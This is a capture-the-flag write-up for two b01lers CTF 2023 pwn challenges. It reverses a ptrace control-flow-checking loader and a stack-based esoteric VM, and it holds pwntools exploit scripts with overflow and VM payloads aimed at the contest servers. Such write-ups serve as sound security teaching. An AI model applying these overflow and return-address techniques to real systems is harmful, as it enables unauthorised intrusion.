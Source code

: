 ```yaml
---
title: (CTF) 2023 b01lers CTF writeup
categories: [CTF]
tags : [writeup]
date : 2023-03-20 09:16:08 +0900
author:
    name: 
    link: 
toc: true
comments: false
mermaid: false
math: false
---
```


Date: March 20, 2023
rank: 19
team: ST4RT

# chifufuuufuuuuu ( 398 pt, 13 solve )

there are two files loader.pyc, a binary

```python
while 1:
    # res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    pid, status = os.waitpid(-1, 0)
    ssy = pnx(status)
    print(ssy)
    res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    print(hex(regs.rip))
    if ssy[1] == 'WIFEXITED':
        break
    if ssy[2] == 'SIGSEGV':
        break
    if ssy[2] == 'SIGTRAP':

> ['0x57f', 'WIFSTOPPED', "'SIGTRAP'", '0']

```

if I execute python code from uncompyle6, it doesn’t work due to the quote.
Enclose comparing string with double quotes

```
int 3
adc [rax+XX]
```

In binary, there are some opcodes that cause SEGFAULT next to int 3.
int 3 → `SIGTRAP`

```python
if ssy[2] == 'SIGTRAP':
    res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    one_byte = mem_read(pid, regs.rip, 1)[0]
    if one_byte == 72:
        regs.rax = regs.rdi
        regs.rdi = regs.rsi
        ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
    else:
        if one_byte == 17 or one_byte == 33 or one_byte == 49:
            offd = {17:0,  33:40,  49:72}
            vv = mem_read(pid, regs.rsp + offd[one_byte], 8)
            vv = struct.unpack('<Q', vv)[0]
            saved_addr.add(vv)
            regs.rip += 1
            ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
        else:
            if one_byte == 18 or one_byte == 34 or one_byte == 50:
                offd = {18:0,  34:40,  50:72}
                vv = mem_read(pid, regs.rsp + offd[one_byte], 8)
                vv = struct.unpack('<Q', vv)[0]
                if vv not in saved_addr:
                    print('\\n\\n!!!Stack Violation Detected!!!\\n\\n')
                    regs.rip = 0
                    ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
                    break
                saved_addr.remove(vv)
                regs.rip += 1
                ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
    res = ptrace(PTRACE_CONT, pid, 0, 0)

```

In the loader, it handles `SIGTRAP`.
it branches according to the 1byte next to `int 3` opcode

```
0x48 -> rax = rdi, rdi = rsi
0x11,0x21,0x31 -> saved_addr.add([rsp+XX]), rip+=1
0x12,0x22,0x32 -> saved_addr.remove([rsp+XX]), if not exist, exit. rip+=1,
```

control flow check

## binary routine

```nasm
read(0,0x601004,0x10)
open("/dev/urandom") -> /dev/urandom string -> 0x601084
[0x601000]+=1
read(fd,0x601000+[0x601000]<<4+4],0x10) -> 0x601014
write(1,random values,0x10)
write xored data with random values
: 0x400486
read(0,[rsp+0x20],0x10)
read(0,[rsp+0x10],...) -> input until 0xA
write xored data [rsp+0x20], [rsp+0x10]
```

in function `0x400486`, BOF occurs. there is int 3 + 0x32 at the end of the function.
loader check if `[rsp+0x48]` in saved_addr.

There are two addresses at this time. original return `0x400546` and `0x4005e2`.

In `0x4005e2`, it executes that routing again if eax ≠ 0.
the return value of write always 1.

repeating that routine, you can raise the address until `0x601084` ( /dev/urandom ) by increasing the input index (`0x601000`)

modifying this filename to flag.txt, it reads flag as random values and prints.

```python
from pwn import *

# r = process(["/usr/bin/python3","/root/loader.py"])
r = remote("ctf.b01lers.com", 5215)
for i in range(9):
    print(i)
    r.sendafter('?:\n',b'flag.txt'.ljust(16,b'\x00'))
    r.sendafter(':\n',b'\x00'*16)
    r.sendline(b'\x00'*0x38+p64(0x4005e2))
r.interactive()
```

by repeating 8 times, the string address 0x601084 (/dev/urandom) can be overwritten,
in the 9th routine, it prints flag as random values 

# baby noah ( 334 pt, 25 solve )

## binary routine

1. input map ( max : 8 * 24 )
2. execute opcode

```python
opcode = map[row * m_col + col]
col + flag1 (default 0)
row += flag2 (default 0)
miles += op+1

# / dup / stack[idx] = stack[idx-1], idx ++
! / test / stack[idx-1] = stack[idx-1] == 0
* / mul / stack[idx-2] *= stack[idx-1], idx-=1
+ / add / stack[idx-2] += stack[idx-1], idx-=1
- / sub / stack[idx-2] -= stack[idx-1], idx-=1, 
/ / div / stack[idx-2] /= stack[idx-1], idx-=1
% / mod / stack[idx-2] %= stack[idx-1], idx-=1
& / and / ...
, / swap / stack[idx-2] = stack[idx-1]; stack[idx-1] = stack[idx-2]
~ / pop / idx-=1
. / putc / putc(stack[idx-1])
: / printf / printf("%d",stack[idx-1])
< / left / flag1 = -1
> / right / flag1 = 1
@ / return 1
^ / up / flag2 = -1
v / down / flag2 = 1
_ / left_right / flag1 = stack[idx-1]==0 ? 1 : -1;
| / up_down / flag2 = stack[idx-1] == 0 ? 1 : -1;
g / load / stack[idx-2] = map[m_col * stack[idx-1] + stack[idx-2]]; idx-=1
p / store / map[m_col * stack[idx-2] + stack[idx-3]] = stack[idx-1]; idx-=3
default / stack[idx] = 0; idx++
```

in every execute, add opcode+1 to `miles.`
using that opcodes, make `miles` 0x31337 to print flag.
input size is 8 * 24, so i need to construct a loop.

first, push counter to stack

> stack : [ 0x00, X ], idx = 2
> 

1. `right` to set flag1 = 1
2. `default` (counter → map[0][1])
3. `default` (dummy to idx++)
4. `default` (dummy, in load row = 0)
5. `test` to set stack[idx-1] = 1
6. `load` X

> payload : >XX!Xg
> 

second, using two rows, construct a loop

1. `right` to start loop
2. `default` to idx++
3. `test` to set stack[2] = 1
4. `sub` stack[1]
5. `default & pop` ( dummy op to increase miles )
6. `down`
7. `left_right` to check counter (stack[1]) == 0
if counter==0, goto right to exit
else, goto left to execute remain loop count

> \>X!-X~v
^<<<<<_@
> 

Adjust the value X  to make the miles to 0x31337.

```python
from pwn import *

#r=process(["./babynoah","20","flag.txt"])
r=remote("babynoah.bctf23-codelab.kctf.cloud", 1337)

payload = b">\xe4\xe4!\xffg>\xfe!-\x00~v\n"
payload +=b"\xff\xff\xff\xff\xff\xff^<<<<<<_@"
r.sendline(payload)
pause()
r.sendline()
r.interactive()
```

by default, X to 0xff and adjusted the rest appropriately